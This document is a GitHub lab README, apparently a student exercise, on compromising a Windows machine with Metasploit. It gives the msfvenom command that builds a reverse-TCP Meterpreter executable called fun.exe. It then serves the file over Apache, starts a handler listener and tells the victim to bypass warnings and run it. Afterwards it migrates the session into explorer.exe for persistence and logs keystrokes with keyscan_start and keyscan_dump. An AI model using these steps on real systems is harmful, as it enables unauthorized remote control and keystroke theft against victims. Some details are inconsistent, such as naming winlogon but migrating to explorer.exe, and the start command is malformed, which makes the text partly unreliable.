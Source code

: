 ![exp6_6](https://github.com/user-attachments/assets/614a1787-c3f6-4653-a922-3e2905d6d529)# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![exp6_1](https://github.com/user-attachments/assets/2d594c6f-42da-4d42-a36b-28542ccc6d23)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![exp6_2](https://github.com/user-attachments/assets/65653a12-329f-43b3-9032-594694b0ddaf)

copy the fun.exe into the apache /var/www/html folder
![exp6_3](https://github.com/user-attachments/assets/ce07d36c-da61-489b-b938-16dbc0b462ca)

Start apache server sudo systemctl apache2 start
![exp6_4](https://github.com/user-attachments/assets/d8a2213f-6b0c-4f3f-bb80-58c9fa047177)

Check the status of apache2
![exp6_5](https://github.com/user-attachments/assets/f5ea45b6-f430-4284-aa91-936f59d1aed8)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![exp6_6](https://github.com/user-attachments/assets/47ca61b4-94f2-4c12-8117-e4a530b973fe)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![exp6_7](https://github.com/user-attachments/assets/f6705ed8-bbb3-43dc-a822-cbe5f17435eb)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![exp6_8](https://github.com/user-attachments/assets/656d275c-175e-4460-8809-07b9de09b03c)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![exp6_9](https://github.com/user-attachments/assets/1db3c4e8-5954-4876-9630-82a5e52a1cf0)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![exp6_10](https://github.com/user-attachments/assets/1378325a-be9d-42e8-9afd-04c46c2d0231)

keyscan_dump Shows the keystrokes captured so far
![exp6_11](https://github.com/user-attachments/assets/269031dc-7a8d-43e0-aa51-11e62be30b25)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
